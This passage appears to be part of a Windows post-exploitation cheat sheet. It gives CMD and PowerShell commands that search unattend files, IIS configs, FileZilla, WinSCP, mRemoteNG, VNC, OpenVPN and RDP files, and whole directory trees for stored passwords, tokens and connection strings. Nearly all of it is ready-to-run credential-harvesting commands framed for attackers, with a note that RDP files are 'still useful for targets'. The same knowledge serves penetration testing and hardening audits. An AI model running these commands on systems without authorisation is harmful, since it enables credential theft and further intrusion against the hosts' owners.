 PowerShell:
```
$paths = "C:\unattend.xml","C:\Windows\Panther\Unattend.xml","C:\Windows\Panther\Unattended.xml","C:\Windows\System32\Sysprep\unattend.xml","C:\Windows\Sysprep\sysprep.xml"
$paths | ? { Test-Path $_ } | % { Write-Host "[*]" $_; Select-String -Path $_ -Pattern 'password|plaintext|credentials' -AllMatches -CaseSensitive:$false -Context 1,1 }
```

### 2) IIS / .NET applications
Look for DB connection strings and service accounts in web.config/applicationHost.config.

CMD:
```
findstr /si /n /c:"connectionstring" /c:"password" "C:\inetpub\wwwroot\web.config" 2>nul
findstr /si /n /c:"connectionstring" /c:"password" "C:\Windows\System32\inetsrv\config\applicationHost.config" 2>nul
```

PowerShell:
```
$targets = "C:\inetpub\wwwroot\web.config","C:\Windows\System32\inetsrv\config\applicationHost.config"
$targets | ? { Test-Path $_ } | % { Select-String -Path $_ -Pattern 'connectionstring|password|pwd' -AllMatches -CaseSensitive:$false -Context 1,1 }
```

### 3) App-specific configs commonly leaking creds
- FileZilla: %APPDATA%\FileZilla\sitemanager.xml
- mRemoteNG: %APPDATA%\mRemoteNG\confCons.xml
- WinSCP: %APPDATA%\WinSCP.ini (or registry)
- UltraVNC: C:\Program Files\UltraVNC\ultravnc.ini
- OpenVPN: C:\Program Files\OpenVPN\config\*.ovpn and referenced auth files
- RDP files: C:\Users\*\Documents\*.rdp (may include encrypted password blobs; still useful for targets)

CMD:
```
findstr /si /n /c:"pass" /c:"pwd" "%APPDATA%\FileZilla\sitemanager.xml" 2>nul
findstr /si /n /c:"password" "%APPDATA%\mRemoteNG\confCons.xml" 2>nul
findstr /si /n /c:"password" "%APPDATA%\WinSCP.ini" 2>nul
findstr /si /n /c:"passwd" "C:\Program Files\UltraVNC\ultravnc.ini" 2>nul
for /r "C:\Program Files\OpenVPN\config" %f in (*.ovpn *.txt *.conf) do @findstr /si /n /c:"auth-user-pass" /c:"password" "%f" 2>nul
for /r "C:\Users" %f in (*.rdp) do @findstr /si /n /c:"password" "%f" 2>nul
```

### 4) Broad search across common directories (CMD, robust)
Use where /r to enumerate files by extension, then feed to findstr.

CMD:
```
for /f "delims=" %f in ('where /r "C:\Users" *.config *.xml *.ini *.txt *.conf *.cfg *.ps1 *.bat *.vbs *.log') do @findstr /i /n /p /c:"password" /c:"passwd" /c:"pwd" /c:"user" /c:"username" /c:"credential" /c:"secret" /c:"token" /c:"connectionstring" "%f" 2>nul

for /f "delims=" %f in ('where /r "C:\ProgramData" *.config *.xml *.ini *.txt *.conf *.cfg *.log') do @findstr /i /n /p /c:"password" /c:"pwd" /c:"user" /c:"connectionstring" "%f" 2>nul

for /f "delims=" %f in ('where /r "C:\Program Files" *.config *.xml *.ini *.txt *.conf *.cfg') do @findstr /i /n /p /c:"password" /c:"user" /c:"connectionstring" "%f" 2>nul

for /f "delims=" %f in ('where /r "C:\Program Files (x86)" *.config *.xml *.ini *.txt *.conf *.cfg') do @findstr /i /n /p /c:"password" /c:"user" /c:"connectionstring" "%f" 2>nul

for /f "delims=" %f in ('where /r "C:\inetpub" *.config *.xml *.ini *.txt') do @findstr /i /n /p /c:"connectionstring" /c:"password" "%f" 2>nul
```
